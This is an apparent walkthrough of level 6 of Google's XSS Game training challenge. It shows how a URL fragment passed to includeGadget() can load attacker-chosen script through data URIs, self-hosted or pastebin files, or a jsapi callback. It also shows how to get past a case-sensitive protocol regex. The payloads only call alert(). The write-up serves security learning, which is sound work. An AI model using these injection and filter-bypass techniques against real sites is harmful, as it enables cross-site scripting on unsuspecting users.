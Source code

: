 <iframe width="100%" height="200" src="https://xss-game.appspot.com/level6/frame#/static/gadget.js" title="Level6"></iframe>

The value after `#` in the URL is used as the gadget filename, and passed into `includeGadget()`.
```js
function getGadgetName() { 
  return window.location.hash.substr(1) || "/static/gadget.js";
}

includeGadget(getGadgetName());
```
### Easier - Data URI Solution
[Data URIs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs) allow HTML tags to be created with inline content, rather than reaching out to and making an additional request to the server. For example, an inline image might look like:
```
<img src="data:image/png;base64,iVBORw0KGgoAAAA..."/>
```
So, if we want to run JS we can actually inject either of these after the `#`:
```
data:text/html,<script>alert('hi');</script>
data:text/javascript,alert(1)
```
### Harder - Hosted JS File
The code seems to assume we'll be passing in a URL where we are hosting a JS file. The file need only contain the line `alert()`. 

We could host an HTTP server: `python3 -m http.server 80`. The file would then be at `http://<your-ip>/<file.js>`.

We could paste our `alert(1)` script into pastebin, and grab the link (e.g. `https://pastebin.com/raw/******`).

The simplest way however, is to use [Google's JavaScript API Loader, aka `jsapi`](https://www.petefreitag.com/item/683.cfm). You can call a specific JS function (like `alert()` with it:
```
https://www.google.com/jsapi?callback=alert
```
The trouble is the RegEx in the code trying to identify URLs: `url.match(/^https?:\/\//)`. If you want to analyze RegEx for vulnerability, it's easiest to check some permutations on a RegEx Tester website. You can check the matches for yourself here: [regex101](https://regex101.com/r/KvPkNW/1).
```
^ asserts position at start of a line
http matches the characters http literally (case sensitive)
s? matches the character s literally (case sensitive)
? Quantifier — Matches between zero and one times, as many times as possible, giving back as needed (greedy)
: matches the character : literally (case sensitive)
\/ matches the character / literally (case sensitive)
\/ matches the character / literally (case sensitive)
```
If we use an address without specifying the protocol at all, it could work (e.g. www.example.com instead of http://www.example.com). Or, because the protocol will be inherited from whichever page you're on, you can preface with just `//` and no `http:`. We could also use a single or multiple uppercase characters (e.g. `hTtp://, HTTP://`) because the [first part of a URL--the location--is case insensitive](https://webmasters.stackexchange.com/a/90378). We ca
